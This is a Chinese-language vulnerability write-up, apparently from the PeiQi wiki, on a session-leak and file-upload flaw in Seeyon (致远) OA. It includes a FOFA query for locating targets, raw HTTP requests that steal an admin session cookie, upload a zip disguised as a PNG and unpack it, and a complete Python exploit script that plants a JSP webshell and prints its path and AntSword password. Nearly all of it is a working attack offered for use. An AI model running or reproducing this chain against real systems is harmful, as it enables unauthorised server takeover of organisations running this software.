


# 致远OA Session泄露 任意文件上传漏洞

## 漏洞描述

致远OA通过发送特殊请求获取session，在通过文件上传接口上传webshell控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA 

## FOFA

> [!NOTE]
>
> title="致远"

## 漏洞复现

首先要获取管理员cookie

```js
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 133
Content-Type: application/x-www-form-urlencoded

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1
```

> [!NOTE]
>
> 返回包出现 Sset-Cookie 和 a8genius.do 即为成功获取



上传压缩包添加 Cookie上传

```js
POST /seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.25.1
Cookie: JSESSIONID=3495C4DEF87200EA323B1CA31E3B7DF5
Content-Length: 841
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="firstSave"

true
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="callMethod"

resizeLayout
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="isEncrypt"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="takeOver"

false
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="type"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file1"; filename="peiqi.png"
Content-Type: image/png

PK....................______
--59229605f98b8cf290a7b8908b34616b--
```

然后构造请求解压压缩包

```js
POST /seeyon/ajax.do HTTP/1.1
Host: 192.168.10.2
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=BDF7358D4C35C6D2BB99FADFEE21F913
Content-Length: 157

method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%222021-04-09%22%2C%225818374431215601542%22%5D
```

状态码返回500即为上传成功

## 漏洞POC

> [!NOTE]
>
> 脚本在文件目录的 POC中
>
> 其中含有zip压缩包 shell.zip, 如果上传失败更改一下文件名



```python
# coding: utf-8
import requests
import sys
import random
import time
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/thirdpartyController.do"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200 and "a8genius.do" in response.text and 'set-cookie' in str(response.headers).lower():
            cookies = response.cookies
            cookies = requests.utils.dict_from_cookiejar(cookies)
            cookie = cookies['JSESSIONID']
            targeturl = target_url + '/seeyon/fileUpload.do?method=processUpload'
            print("\033[32m[o] 目标 {} 正在上传压缩包文件.... \n[o] Cookie: {} \033[0m".format(target_url, cookie))
            files = [('file1', ('360icon.png', open('shell.zip', 'rb'), 'image/png'))]
            headers = {'Cookie':"JSESSIONID=%s" % cookie}
            data = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver':"false", "type": '0','isEncrypt': "0"}
            response = requests.post(url=targeturl,files=files,data=data, headers=headers,timeout=60,verify=False)
            reg = re.findall('fileurls=fileurls\+","\+\'(.+)\'',response.text,re.I)
            if len(reg)==0:
                sys.exit("上传文件失败")
            POC_2(target_url, cookie, reg, headers)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)

def POC_2(target_url, cookie, reg, headers):
    vuln_url = target_url + '/seeyon/ajax.do'
    datestr = time.strftime('%Y-%m-%d')
    post = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + datestr + '%22%2C%22' + reg[0] + '%22%5D'

    headers['Content-Type']="application/x-www-form-urlencoded"
    print("\033[32m[o] 目标 {} 正在解压文件.... \033[0m".format(target_url))
    try:
        response = requests.post(vuln_url, data=post,headers=headers,timeout=60,verify=False)
        if response.status_code == 500:
            print("\033[32m[o] 目标 {} 解压文件成功.... \033[0m".format(target_url))
            print("\033[32m[o] 默认Webshell地址: {}/seeyon/common/designer/pageLayout/peiqi10086.jsp \033[0m".format(target_url))
            print("\033[32m[o] 蚁剑密码: peiqi \033[0m".format(target_url))
            print("\033[32m[o] 如果目标webshell无法访问，请更换 peiqi_test.zip 中的木马名称 \033[0m".format(target_url))
        else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)
        
        
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

